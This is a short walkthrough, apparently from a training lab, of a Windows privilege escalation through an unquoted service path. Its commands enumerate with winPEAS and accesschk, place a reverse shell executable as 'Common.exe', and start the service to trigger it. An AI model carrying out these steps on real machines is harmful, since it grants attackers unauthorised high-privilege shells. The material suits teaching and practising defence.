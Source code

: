 1.Run winPEAS to check for service misconfigurations:

` .\winPEASany.exe quiet servicesinfo`

2.Note that the “unquotedsvc” service has an unquoted path that also contains spaces:

```
C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe
```


3.Confirm this using sc:
```
sc qc unquotedsvc
```


4.Use accesschk.exe to check for write permissions:

```
 .\accesschk.exe /accepteula -uwdq C:\
 
 .\accesschk.exe /accepteula -uwdq "C:\Program Files\"
 
.\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
```

5.Copy the reverse shell executable and rename it appropriately:

```
copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
```

6.Start a listener on Kali, and then start the service to trigger the exploit:

```
net start unquotedsvc
```